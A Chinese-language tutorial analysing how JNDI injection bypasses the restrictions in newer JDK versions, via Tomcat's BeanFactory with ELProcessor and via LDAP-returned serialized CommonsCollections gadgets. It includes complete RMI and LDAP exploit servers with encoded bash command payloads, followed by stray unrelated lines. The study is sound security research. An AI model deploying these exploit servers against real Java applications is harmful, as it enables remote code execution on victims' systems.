

前言
前面分析了JNDI注入的过程，这次来分析一下绕过高版本jdk限制的思路。
绕过JDK高版本限制
在JDK 11.0.1、8u191、7u201、6u211或者更高版本的JDK中，默认环境下之前这些利用方式都已经失效。
所以需要进行绕过，有两种绕过方法:
1. 找到一个受害者本地CLASSPATH中的类作为恶意的Reference Factory工厂类，并利用这个本地的Factory类执行命令。
2. 利用LDAP直接返回一个恶意的序列化对象，JNDI注入依然会对该对象进行反序列化操作，利用反序列化Gadget完成命令执行。
这两种方式都非常依赖受害者本地CLASSPATH中环境，需要利用受害者本地的Gadget进行攻击。
利用本地Class作为Reference Factory
因为多了上面的限制，所以不能从远程加载恶意的Factory。 但是我们依然可以在返回的Reference中指定Factory Class，这个工厂类必须在受害目标本地的CLASSPATH中。 工厂类必须实现javax.naming.spi.ObjectFactory接口，并且至少存在一个getObjectInstance()方法。 Tomcat依赖包中的org.apache.naming.factory.BeanFactory刚好满足条件并且存在被利用的可能。
org.apache.naming.factory.BeanFactory在getObjectInstance()中会通过反射的方式实例化Reference所指向的任意Bean Class， 并且会调用setter方法为所有的属性赋值。而该Bean Class的类名、属性、属性值，全都来自于Reference对象，均是攻击者可控的。
但org.apache.naming.factory.BeanFactory需要tomcat8+或者SpringBoot 1.2.x+，因为javax.el.ELProcessor类。
知道大概的原理后，来跟一下代码，首先看到上面限制的地方，这里除了获取!trustURLCodebase的值，还&&两个条件。 所以只要另外两个不为true即可实现绕过。这里可以看到var8.getFactoryClassLocation() != null这个条件是false，来向上调试看看。
{kind=link}
可以看到这里var8是var3，而var3根据第一行中的条件可以看出是((RemoteReference)var1).getReference()的值。 所以，关注一下传入decodeObject方法的第一个参数。
{kind=link}
跟随变量流入的方向，可以看到最初是从this.registry.lookup(var1.get(0))获取的，所以跟进一下。
{kind=link}
从return的地方向上看，可以看出这个lookup方法其实就是从我们恶意服务器获取stub信息， 然后在decodeObject方法中通过getReference()方法去获取ResourceRef类。
{kind=link}
接下来来看一下payload中是怎么构造的，才可以让var8.getFactoryClassLocation()为空。 可以看到最后一个参数为null，最后一个参数根据idea显示是factoryLocation参数，使得var8.getFactoryClassLocation()为空。
import com.sun.jndi.rmi.registry.ReferenceWrapper;
import org.apache.naming.ResourceRef;
import javax.naming.NamingException;
import javax.naming.StringRefAddr;
import java.rmi.AlreadyBoundException;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
public class BypassCodebase {
public static void main(String[] args) throws RemoteException, NamingException, AlreadyBoundException {
Registry registry = LocateRegistry.createRegistry(1099);
// 实例化Reference，指定目标类为javax.el.ELProcessor，工厂类为org.apache.naming.factory.BeanFactory，最后一个参数是factoryLocation，为空时即可使得var8.getFactoryClassLocation()为空。
ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "", true,"org.apache.naming.factory.BeanFactory",null);
// BeanFactory.getObjectInstance 代码中获取forceString的值截取等于号后的内容作为调用的方法
ref.add(new StringRefAddr("forceString", "pwn=eval"));
// 利用表达式执行命令
ref.add(new StringRefAddr("pwn", "\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"new java.lang.ProcessBuilder['(java.lang.String[])'](['/bin/bash','-c','{echo,b3BlbiAvU3lzdGVtL0FwcGxpY2F0aW9ucy9DYWxjdWxhdG9yLmFwcA==}|{base64,-d}|{bash,-i}']).start()\")"));
ReferenceWrapper referenceWrapper = new ReferenceWrapper(ref);
registry.bind("evilObject", referenceWrapper);
}
}
既然不能从远程获取恶意的Factory类，那么是如何达到rce的呢，这里跟进getObjectInstance方法。
{kind=link}
如果按照之前没有jdk限制的利用流程，会走到getObjectFactoryFromReference中， 通过helper.loadClass(factoryName, codebase)加载恶意类然后调用clas.newInstance()实例化远程加载的恶意类。 但因为我们通过var8.getFactoryClassLocation()为空绕过了jdk限制，导致图中画出来的地方不满足条件无法加载恶意类，从而无法利用。
{kind=link}
这里虽然不能加载恶意类，但可以利用下面的getObjectInstance方法来创建工厂类。 同时需要在getObjectInstance方法中想办法执行我们的代码。
{kind=link}
跟进到org.apache.naming.factory.BeanFactory类中查看getObjectInstance方法。 可以看到加载了javax.el.ELProcessor类。
{kind=link}
重点放在80行beanClass.getMethod(propName, paramTypes)的两个参数， paramTypes为第一个参数调用方法的参数类型。而propName由forceString的值经过param.indexOf(61)对=进行截断后，取后半部分获取。 所以，forceString在exp中可以设置成{任意不含,和=的字符串}=eval。之后便调获取javax.el.ELProcessor中的eval方法。
{kind=link}
接下来就是反射调用获取到的eval方法，并向里面传入构造的恶意表达式，这也是第二个ref.add添加的内容， 恶意表达式通过(String)ra.getContent()获取并传入到valueArray数组内，传参反射调用eval方法执行恶意代码。
{kind=link}
利用LDAP返回序列化数据
LDAP Server除了使用JNDI Reference进行利用之外，还支持直接返回一个对象的序列化数据。 通过构造恶意反序列化内容触发本地Gadget绕过高版本JDK的限制，所以需要本地存在Gadget才可以利用。
首先来到客户端的lookup打断点。
{kind=link}
跟前面的差不多，进入lookup方法。
{kind=link}
继续调用lookup方法。
{kind=link}
再次调用lookup方法。
{kind=link}
重点的地方开始来了，从这里调用了p_lookup方法。
{kind=link}
接着在switch条件中进入case 2调用c_lookup方法。
{kind=link}
在c_lookup方法中，可以看到这里通过doSearchOnce方法获取ldap的内容。 之后将获取到的序列化数据传入decodeObject方法中，需要注意的是这里需要先经过一个if判断Attribute，所以payload构造了e.addAttribute来进行绕过。
{kind=link}
进入到decodeObject方法中，这里在调用deserializeObject之前，又进行了一次Attribute判断， 所以payload才会构造两次e.addAttribute。之后便进入decodeObject方法中进行反序列化。
{kind=link}
LdapBypass
import com.unboundid.ldap.listener.InMemoryDirectoryServer;
import com.unboundid.ldap.listener.InMemoryDirectoryServerConfig;
import com.unboundid.ldap.listener.InMemoryListenerConfig;
import com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult;
import com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor;
import com.unboundid.ldap.sdk.Entry;
import com.unboundid.ldap.sdk.LDAPException;
import com.unboundid.ldap.sdk.LDAPResult;
import com.unboundid.ldap.sdk.ResultCode;
import com.unboundid.util.Base64;
import javax.net.ServerSocketFactory;
import javax.net.SocketFactory;
import javax.net.ssl.SSLSocketFactory;
import java.net.InetAddress;
import java.net.MalformedURLException;
import java.net.URL;
import java.text.ParseException;
public class LdapBypass {
private static final String LDAP_BASE = "dc=example,dc=com";
public static void main(String[] args) {
String url = "http://127.0.0.1:8000/#EvilObject";
int port = 1099;
try {
InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig(LDAP_BASE);
config.setListenerConfigs(new InMemoryListenerConfig(
"listen",
InetAddress.getByName("0.0.0.0"),
port,
ServerSocketFactory.getDefault(),
SocketFactory.getDefault(),
(SSLSocketFactory) SSLSocketFactory.getDefault()));
config.addInMemoryOperationInterceptor(new OperationInterceptor(new URL(url)));
InMemoryDirectoryServer ds = new InMemoryDirectoryServer(config);
System.out.println("Listening on 0.0.0.0:" + port);
ds.startListening();
} catch (Exception e) {
e.printStackTrace();
}
}
private static class OperationInterceptor extends InMemoryOperationInterceptor {
private URL codebase;
public OperationInterceptor(URL cb) {
this.codebase = cb;
}
/**
* {@inheritDoc}
*
* @see com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor#processSearchResult(com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult)
*/
public void processSearchResult(InMemoryInterceptedSearchResult result) {
String base = result.getRequest().getBaseDN();
Entry e = new Entry(base);
try {
sendResult(result, base, e);
} catch (Exception e1) {
e1.printStackTrace();
}
}
protected void sendResult(InMemoryInterceptedSearchResult result, String base, Entry e) throws LDAPException, MalformedURLException {
URL turl = new URL(this.codebase, this.codebase.getRef().replace('.', '/').concat(".class"));
System.out.println("Send LDAP reference result for " + base + " redirecting to " + turl);
e.addAttribute("javaClassName", "Exploit");
String cbstring = this.codebase.toString();
int refPos = cbstring.indexOf('#');
if (refPos > 0) {
cbstring = cbstring.substring(0, refPos);
}
// 返回序列化Gadget
try {
e.addAttribute("javaSerializedData", Base64.decode("rO0ABXNyABFqYXZhLnV0aWwuSGFzaFNldLpEhZWWuLc0AwAAeHB3DAAAAAI/QAAAAAAAAXNyADRvcmcuYXBhY2hlLmNvbW1vbnMuY29sbGVjdGlvbnMua2V5dmFsdWUuVGllZE1hcEVudHJ5iq3SmznBH9sCAAJMAANrZXl0ABJMamF2YS9sYW5nL09iamVjdDtMAANtYXB0AA9MamF2YS91dGlsL01hcDt4cHQAA2Zvb3NyACpvcmcuYXBhY2hlLmNvbW1vbnMuY29sbGVjdGlvbnMubWFwLkxhenlNYXBu5ZSCnnkQlAMAAUwAB2ZhY3Rvcnl0ACxMb3JnL2FwYWNoZS9jb21tb25zL2NvbGxlY3Rpb25zL1RyYW5zZm9ybWVyO3hwc3IAOm9yZy5hcGFjaGUuY29tbW9ucy5jb2xsZWN0aW9ucy5mdW5jdG9ycy5DaGFpbmVkVHJhbnNmb3JtZXIwx5fsKHqXBAIAAVsADWlUcmFuc2Zvcm1lcnN0AC1bTG9yZy9hcGFjaGUvY29tbW9ucy9jb2xsZWN0aW9ucy9UcmFuc2Zvcm1lcjt4cHVyAC1bTG9yZy5hcGFjaGUuY29tbW9ucy5jb2xsZWN0aW9ucy5UcmFuc2Zvcm1lcju9Virx2DQYmQIAAHhwAAAABXNyADtvcmcuYXBhY2hlLmNvbW1vbnMuY29sbGVjdGlvbnMuZnVuY3RvcnMuQ29uc3RhbnRUcmFuc2Zvcm1lclh2kBFBArGUAgABTAAJaUNvbnN0YW50cQB+AAN4cHZyABFqYXZhLmxhbmcuUnVudGltZQAAAAAAAAAAAAAAeHBzcgA6b3JnLmFwYWNoZS5jb21tb25zLmNvbGxlY3Rpb25zLmZ1bmN0b3JzLkludm9rZXJUcmFuc2Zvcm1lcofo/2t7fM44AgADWwAFaUFyZ3N0ABNbTGphdmEvbGFuZy9PYmplY3Q7TAALaU1ldGhvZE5hbWV0ABJMamF2YS9sYW5nL1N0cmluZztbAAtpUGFyYW1UeXBlc3QAEltMamF2YS9sYW5nL0NsYXNzO3hwdXIAE1tMamF2YS5sYW5nLk9iamVjdDuQzlifEHMpbAIAAHhwAAAAAnQACmdldFJ1bnRpbWV1cgASW0xqYXZhLmxhbmcuQ2xhc3M7qxbXrsvNWpkCAAB4cAAAAAB0AAlnZXRNZXRob2R1cQB+ABsAAAACdnIAEGphdmEubGFuZy5TdHJpbmeg8KQ4ejuzQgIAAHhwdnEAfgAbc3EAfgATdXEAfgAYAAAAAnB1cQB+ABgAAAAAdAAGaW52b2tldXEAfgAbAAAAAnZyABBqYXZhLmxhbmcuT2JqZWN0AAAAAAAAAAAAAAB4cHZxAH4AGHNxAH4AE3VyABNbTGphdmEubGFuZy5TdHJpbmc7rdJW5+kde0cCAAB4cAAAAAF0AF1iYXNoIC1jIHtlY2hvLGIzQmxiaUF2VTNsemRHVnRMMEZ3Y0d4cFkyRjBhVzl1Y3k5RFlXeGpkV3hoZEc5eUxtRndjQT09fXx7YmFzZTY0LC1kfXx7YmFzaCwtaX10AARleGVjdXEAfgAbAAAAAXEAfgAgc3EAfgAPc3IAEWphdmEubGFuZy5JbnRlZ2VyEuKgpPeBhzgCAAFJAAV2YWx1ZXhyABBqYXZhLmxhbmcuTnVtYmVyhqyVHQuU4IsCAAB4cAAAAAFzcgARamF2YS51dGlsLkhhc2hNYXAFB9rBwxZg0QMAAkYACmxvYWRGYWN0b3JJAAl0aHJlc2hvbGR4cD9AAAAAAAAAdwgAAAAQAAAAAHh4eA=="));
} catch (ParseException exception) {
exception.printStackTrace();
}
result.sendSearchEntry(e);
result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
}
}
}There Is Nothing Below
 Turn at the next intersection.
Turn at the next intersection.